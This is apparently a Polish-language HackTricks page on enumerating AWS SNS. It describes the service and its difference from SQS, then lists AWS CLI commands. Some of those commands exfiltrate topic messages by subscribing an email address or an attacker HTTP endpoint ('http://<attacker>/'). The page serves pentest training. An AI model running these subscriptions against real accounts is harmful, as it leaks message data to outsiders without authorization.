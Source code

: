 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) jest opisana jako **w pełni zarządzana usługa komunikacyjna**. Obsługuje zarówno **komunikację aplikacja-do-aplikacji** (A2A), jak i **komunikację aplikacja-do-osoby** (A2P).

Kluczowe cechy dla komunikacji A2A obejmują **mechanizmy publikacji/subskrypcji (pub/sub)**. Te mechanizmy wprowadzają **tematy**, które są kluczowe dla umożliwienia wysokowydajnej, **opartej na push, komunikacji wiele-do-wielu**. Ta funkcja jest bardzo korzystna w scenariuszach, które obejmują systemy rozproszone, mikroserwisy i architektury bezserwerowe oparte na zdarzeniach. Wykorzystując te tematy, systemy publikujące mogą efektywnie dystrybuować wiadomości do **szerokiego zakresu systemów subskrybujących**, ułatwiając wzorzec komunikacji fanout.

### **Różnica z SQS**

**SQS** to usługa **oparta na kolejkach**, która umożliwia komunikację punkt-punkt, zapewniając, że wiadomości są przetwarzane przez **jednego konsumenta**. Oferuje **dostawę przynajmniej raz**, obsługuje standardowe i FIFO kolejki oraz pozwala na przechowywanie wiadomości w celu ponownych prób i opóźnionego przetwarzania.\
Z drugiej strony, **SNS** to usługa **oparta na publikacji/subskrypcji**, umożliwiająca **komunikację jeden-do-wielu** poprzez nadawanie wiadomości do **wielu subskrybentów** jednocześnie. Obsługuje **różne punkty subskrypcyjne, takie jak e-mail, SMS, funkcje Lambda i HTTP/HTTPS**, oraz zapewnia mechanizmy filtrowania dla ukierunkowanej dostawy wiadomości.\
Chociaż obie usługi umożliwiają odseparowanie komponentów w systemach rozproszonych, SQS koncentruje się na komunikacji w kolejkach, a SNS podkreśla wzorce komunikacji oparte na zdarzeniach i fan-out.

### **Enumeracja**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Zauważ, że jeśli **temat jest typu FIFO**, tylko subskrybenci używający protokołu **SQS** mogą być używani (HTTP lub HTTPS nie mogą być używane).
>
> Ponadto, nawet jeśli `--topic-arn` zawiera region, upewnij się, że określasz poprawny region w **`--region`**, w przeciwnym razie otrzymasz błąd, który wygląda, jakby wskazywał, że nie masz dostępu, ale problemem jest region.

#### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum/README.md
{{#endref}}

#### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc/README.md
{{#endref}}

#### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation/README.md
{{#endref}}

#### Persistence

{{#ref}}
../aws-persistence/aws-sns-persistence/README.md
{{#endref}}

## References

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
